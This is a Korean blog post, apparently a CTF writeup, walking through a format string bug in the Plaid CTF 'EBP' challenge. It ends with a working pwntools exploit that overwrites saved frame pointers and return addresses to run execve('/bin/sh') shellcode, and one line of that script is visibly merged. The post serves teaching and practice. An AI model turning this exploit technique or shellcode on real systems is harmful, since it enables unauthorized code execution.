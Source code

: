 ```yaml
---
layout: post
title: "Plaid CTF EBP Writeup"
tags:
    - writeup
    - Plaid CTF
    - pwnable
    - t4ngo
---
```


# Plaid CTF EBP Writeup

ctf 문제를 많이 풀어보지는 못했지만 plaid ctf에서 괜찮은 문제가 많은 것 같아 찾아보던 중 EBP라는 문제가 재밌어보여서 포스팅하게 되었습니다!

사실 이번 문제는 FSB(Format String Bug)에 관한 것인데 3년전 문제이기도 하고 요즘은 FSB가 많이 나오지 않는 추세로 알고 있어서 '이걸 아직도 해?' 라고 하시는 분들도 계실 수 있지만 그래도 과거가 있기에 현재가 있는 법! 저와 같이 EBP 문제를 풀며 FSB를 다시 한 번 복습해봅시다!

먼저 Binary를 실행하면 아래와 같이 그냥 입력을 받고 그대로 출력해주는 동작이 끝입니다.

![image](/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_01.PNG)

그럼, 좀 더 자세히 알아보기 위해 IDA로 까봅시다!

![image](/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_02.PNG)

main에서는 buf에 1024byte만큼 입력을 받고 echo() 함수를 호출합니다.

![image](/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_03.PNG)

ehco() 함수는 make_response() 함수를 호출하고 puts()로 response를 출력합니다.

![image](/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_04.PNG)

make_response() 함수를 보면 snprintf()를 이용하여 buf의 값을 response에 복사하여 주는 것을 알 수 있습니다.

위 코드를 보고 make_response() 함수에 FSB가 존재한다는 것을 알아채셨겠죠? 하지만, 일반적인 FSB와는 달리 buf가 스택 영역이 아니기 때문에 스택을 마음대로 조작하기에는 어려운 부분이 있죠!

이를 해결하기 위해 Double Staged FSB라는 기법을 이용합니다. (위 내용은 <http://kblab.tistory.com/271>에 잘 정리가 되어 있어서 참고하시면 좋을 것 같습니다!)

다음으로 snprintf()가 호출되기 직전의 stack 상황을 살펴봅니다.

![image](/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_05.PNG)

ebp를 확인해보면 0xffffd5b8 위치하여 0xffffd5d8을 가리키고 있습니다. 여기서 당연하게도 0xffffd5d8은 이전 함수 프레임의 ebp를 뜻하겠죠? >_0

그런 다음, 0xffffd5d8 위치를 살펴보면 0xffffd5f8 들어있는 것을 알 수 있습니다. 즉, 이전 함수의 SFP는 0xffffd5f8이라는 사실을 알 수 있습니다. 그리고 이전 함수의 ret는 0xffffd5dc에 위치한 0x08048557이 되겠죠?

여기서 현재 함수의 EBP를 이용하여 이전 함수의 SFP 값을 0xffffd5dc로 바꾸어주면 됩니다.

정리하자면..

1. 현재 함수의 ebp를 이용하여 이전 함수의 SFP 변경
2. 변경된 SFP는 ret를 가리키고 있으므로 컨트롤 가능

그렇다면 이제 FSB를 이용하여 EBP 값이 얼마나 떨어져있는지 확인해 봅시다!

![image](/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_06.PNG)

4번째에 0xffffd5f8이 찍히긴 하지만 우리가 확인한 0xffffd5d8이 아닌 0xffffd5f8이 들어있습니다! 하지만, ret는 제대로 나오는 군요! 아마, 실제 메모리에 올라가면서 살짝 뒤로 밀린 것 같네요! O_O

그렇다면 다음과 같은 시나리오를 짤 수 있습니다!

1. %x%x%x%x으로 이전 함수의 SFP 확인
2. 알아낸 ebp+4를 통해 ret가 저장된 주소 계산
3. ret가 저장된 주소로 이전 함수의 SFP OverWrite (shellcode를 넣을 수 있는 곳 확보)
4. shellcode를 저장
5. shellcode가 저장된 곳으로 ret OverWrite

위와 같은 시나리오를 바탕으로 exploit 코드를 짜면 아래와 같습니다!

```
  1 from pwn import *
  2 import struct
  3 
  4 p = process("./ebp_a96f7231ab81e1b0d7fe24d660def25a.elf")
  5 
  6 p.send('%4$x\n')
  7 sleep(1)
  8 leak_addr = p.recv(1024)
  9 leak_addr = int(leak_addr,16)+4 & 0xffff
 10 
 11 payload = '%'+`leak_addr`+'c%4$hn\n'
 12 p.send(payload)
 13 
 14 p.recv(1024)shellcode = '\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80'
 16 payload = shellcode+'%'+`(0xa080-len(shellcode))`+'c%12$hn\n'
 17 p.send(payload)
 18 p.recv(1024)
 19 
 20 p.interactive()

```
![image](/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_07.PNG)

exploit 성공!!! 수고하셨습니당~~
